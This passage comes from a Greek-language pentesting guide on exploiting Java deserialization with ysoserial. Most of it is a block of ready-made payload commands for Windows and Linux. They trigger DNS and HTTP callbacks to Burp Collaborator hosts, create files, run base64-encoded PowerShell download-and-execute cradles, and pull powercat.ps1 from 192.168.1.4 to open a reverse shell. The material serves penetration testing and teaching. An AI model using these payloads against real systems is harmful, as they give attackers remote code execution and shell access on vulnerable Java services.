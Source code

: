 ### **Exploit**

#### **ysoserial**

Το κύριο εργαλείο για την εκμετάλλευση των Java deserializations είναι [**ysoserial**](https://github.com/frohoff/ysoserial) ([**κατεβάστε εδώ**](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)). Μπορείτε επίσης να εξετάσετε τη χρήση του [**ysoseral-modified**](https://github.com/pimps/ysoserial-modified) που θα σας επιτρέψει να χρησιμοποιήσετε σύνθετες εντολές (με pipes για παράδειγμα).\
Σημειώστε ότι αυτό το εργαλείο είναι **εστιασμένο** στην εκμετάλλευση του **`ObjectInputStream`**.\
Θα **άρχιζα χρησιμοποιώντας το payload "URLDNS"** **πριν από ένα RCE** payload για να δοκιμάσω αν η ένεση είναι δυνατή. Ούτως ή άλλως, σημειώστε ότι ίσως το payload "URLDNS" να μην λειτουργεί αλλά κάποιο άλλο RCE payload να λειτουργεί.
```bash
# PoC to make the application perform a DNS req
java -jar ysoserial-master-SNAPSHOT.jar URLDNS http://b7j40108s43ysmdpplgd3b7rdij87x.burpcollaborator.net > payload

# PoC RCE in Windows
# Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections5 'cmd /c ping -n 5 127.0.0.1' > payload
# Time, I noticed the response too longer when this was used
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c timeout 5" > payload
# Create File
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c echo pwned> C:\\\\Users\\\\username\\\\pwn" > payload
# DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c nslookup jvikwa34jwgftvoxdz16jhpufllb90.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "cmd /c certutil -urlcache -split -f http://j4ops7g6mi9w30verckjrk26txzqnf.burpcollaborator.net/a a"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAYwBlADcAMABwAG8AbwB1ADAAaABlAGIAaQAzAHcAegB1AHMAMQB6ADIAYQBvADEAZgA3ADkAdgB5AC4AYgB1AHIAcABjAG8AbABsAGEAYgBvAHIAYQB0AG8AcgAuAG4AZQB0AC8AYQAnACkA"
## In the ast http request was encoded: IEX(New-Object Net.WebClient).downloadString('http://1ce70poou0hebi3wzus1z2ao1f79vy.burpcollaborator.net/a')
## To encode something in Base64 for Windows PS from linux you can use: echo -n "<PAYLOAD>" | iconv --to-code UTF-16LE | base64 -w0
# Reverse Shell
## Encoded: IEX(New-Object Net.WebClient).downloadString('http://192.168.1.4:8989/powercat.ps1')
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgAxAC4ANAA6ADgAOQA4ADkALwBwAG8AdwBlAHIAYwBhAHQALgBwAHMAMQAnACkA"

#PoC RCE in Linux
# Ping
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "ping -c 5 192.168.1.4" > payload
# Time
## Using time in bash I didn't notice any difference in the timing of the response
# Create file
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "touch /tmp/pwn" > payload
# DNS request
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "dig ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "nslookup ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net"
# HTTP request (+DNS)
java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections4 "curl ftcwoztjxibkocen6mkck0ehs8yymn.burpcollaborator.net" > payload
```